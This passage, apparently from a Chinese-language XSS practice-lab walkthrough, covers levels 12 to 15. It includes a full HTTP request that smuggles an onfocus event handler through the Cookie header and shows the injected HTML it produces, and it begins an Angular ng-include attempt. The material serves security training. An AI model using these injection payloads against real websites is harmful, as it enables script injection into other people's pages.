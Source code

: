 返回：

```html
<input name="t_ua"  value="" type="text" onfocus="alert()" type="hidden">
```

## Level 13

提示Cook，应该是Cookie，直接测试，Fuzz了一下，Cookie中的user字段可以解析，直接Payload：

```http
GET /level13.php? HTTP/1.1
Host: localhost
sec-ch-ua: "(Not(A:Brand";v="8", "Chromium";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Cookie: user=" type="text" onfocus="alert();
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.51 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```

返回：

```html
<input name="t_cook"  value="" type="text" onfocus="alert()" type="hidden">
```

## Level 14

EXIF XSS

网站已经修复该漏洞，无法利用。

## Level 15

是一个Angular的框架，然后src=123时：

```html
<span class="ng-include:123">
```

`ng-include`即包含某文件。

尝试包含level1.php，并且传入name参数：
